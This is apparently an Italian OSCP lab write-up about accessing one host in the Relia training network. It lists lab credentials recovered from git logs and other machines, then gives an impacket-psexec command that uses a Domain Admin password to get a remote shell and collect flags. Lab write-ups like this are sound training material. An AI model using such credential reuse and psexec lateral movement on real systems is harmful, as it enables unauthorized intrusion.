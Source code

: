 ![](/OSCP/Immagini_OSCP/Relia/191_port_80.png)

Con le credenziali ottenuti cercando tra i log del repository git presente sulla macchina 249 LEGACY riesco ad accedere.

```bash
maildmz@relia.com:DPuBT9tGCBrTbR
```

![](/OSCP/Immagini_OSCP/Relia/191_port_80_login.png)

Riesco ad accedere anche con le seguenti credenziali trovate sulla macchina 14:

```bash
dmzadmin:SlimGodhoodMope
```

Una volta trovate le credenziali del Domain Admin sulla macchina 21, utilizzo questo comando per accedere e collezionare tutte le flag presenti su questa macchina:

```bash
impacket-psexec relia.com/Administrator:"vau\!XCKjNQBv2$"@192.168.205.191
```
